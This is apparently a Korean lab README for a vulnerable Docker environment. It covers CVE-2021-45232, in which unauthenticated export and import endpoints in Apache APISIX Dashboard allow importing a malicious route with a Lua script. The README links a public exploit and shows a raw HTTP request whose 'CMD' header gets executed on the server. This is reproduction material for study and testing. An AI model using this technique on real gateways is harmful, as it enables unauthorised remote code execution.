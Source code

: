 # Apache APISIX Dashboard Unauthenticated Access Leads to RCE (CVE-2021-45232)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX는 동적인 실시간 고성능 API 게이트웨이이며 Apache APISIX Dashboard는 Apache APISIX를 관리하는 데 사용되는 사용하기 쉬운 프론트엔드 인터페이스입니다.

2.10.1 이전의 Apache API 대시보드에서는 Manager API가 두 가지 프레임워크를 사용하여 프레임워크 gin을 기반으로 드롭릿을 소개하고, 모든 API와 인증 미들웨어는 프레임워크 droplet을 기반으로 개발됩니다. 그러나 프레임워크 gin의 인터페이스를 직접 사용하는 API는 /apisix/admin/migrate/export와 /apisix/admin/migrate/import 두 가지로 인증을 우회할 수 있습니다.

공격자는 인증되지 않은 API 엔드포인트 2개를 사용하여 라우터, 서비스, 스크립트 등을 포함한 임의 Apache APISIX 구성을 내보내고 가져올 수 있으며, 이로 인해 SSRF(Request Unexpected URL)가 발생하거나 임의 LUA 스크립트(RCE)가 실행됩니다.
자료:

- https://apisix.apache.org/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp

## 취약한 환경

다음 명령을 실행하여 취약한 Apache APISIX Dashboard 2.9를 시작합니다:

```
docker compose up -d
```

그런 다음 'http://your-ip:9000/'에 접속하면 Apache APISIX Dashboard 로그인 페이지를 볼 수 있습니다.

## 익스플로잇

'/apisix/admin/migrate/export'와 '/apisix/admin/migrate/import'는 Apache APISIX 대시보드에서 제공하는 2개의 인증되지 않은 API로, Apache APISIX에 대한 구성을 내보내고 가져오기 위해 사용됩니다. 따라서 사용자가 제공하는 LUA 스크립트가 포함된 악의적인 라우터를 사용하여 크래프트 구성을 간단하게 가져올 수 있습니다:

![](1.png)

마지막 4바이트는 이 파일의 CRC checksum이므로 자동 POC를 사용하여 [이 POC](https://github.com/wuppp/cve-2021-45232-exp) 와 같이 요청을 빌드하고 전송하는 것이 좋습니다.

악의적인 라우터를 추가한 후, 요청을 Apache APISIX(아파치 APISIX 대시보드와 다름)로 전송하여 LUA 스크립트를 트리거해야 합니다.

Apache APISIX는 다음 환경에서 포트 9080에서 수신합니다:

```
GET /okw1Rh HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0


```

![](2.png)

보다시피 'CMD' 헤더의 명령어는 Apache APISIX에 의해 실행됩니다.